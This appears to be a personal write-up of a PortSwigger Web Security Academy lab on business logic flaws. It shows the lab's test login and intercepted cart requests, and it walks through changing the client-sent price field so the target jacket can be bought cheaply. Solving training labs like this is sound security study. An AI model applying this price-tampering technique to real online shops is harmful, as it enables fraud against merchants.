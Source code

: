 #+title: Excessive trust in client side controls
#+author: [[https://github.com/touhidulshawan][Touhidul Shawan]]
#+description: Bussiness Logic Vulnerabilities Labs from Portswigger
#+date: 2023-08-20 Sun
#+options: toc:2

* Table of Contents :toc:
- [[#lab-contain][Lab contain]]
  - [[#test-account][Test account]]
- [[#end-goal][End Goal]]
- [[#exploit][Exploit]]

* Lab contain
- Doesn't validate user input
- Logic flow on purchasing workflow
** Test account
       - username: =wiener=
       - password: =peter=
* End Goal
- Solve lab by buying a "Lightweight 133t leather jacket"
* Exploit
- Access the lab
- Login with [[#test-account][Test account]] crediential
- Buy a lowest price item on cart to observe the workflow
- Add =product= to cart request
#+begin_src 
POST /cart HTTP/2
Host: 0aa6003c034fece4832e7144009400d8.web-security-academy.net
Cookie: session=QSZYFdktpu3d5yY8Us07mHuHmhFW8wJ2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: https://0aa6003c034fece4832e7144009400d8.web-security-academy.net
Referer: https://0aa6003c034fece4832e7144009400d8.web-security-academy.net/product?productId=2

productId=2&redir=PRODUCT&quantity=1&price=705
#+end_src

- Now add our target product to cart and intercept that request
#+begin_src 
POST /cart HTTP/2
Host: 0aa6003c034fece4832e7144009400d8.web-security-academy.net
Cookie: session=QSZYFdktpu3d5yY8Us07mHuHmhFW8wJ2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/116.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://0aa6003c034fece4832e7144009400d8.web-security-academy.net
Referer: https://0aa6003c034fece4832e7144009400d8.web-security-academy.net/product?productId=1

productId=1&redir=PRODUCT&quantity=1&price=133700
#+end_src

Here change the =price= to lowest and resubmit it. Go to cart and see that price has been reset to your number. Buy that to solve the lab


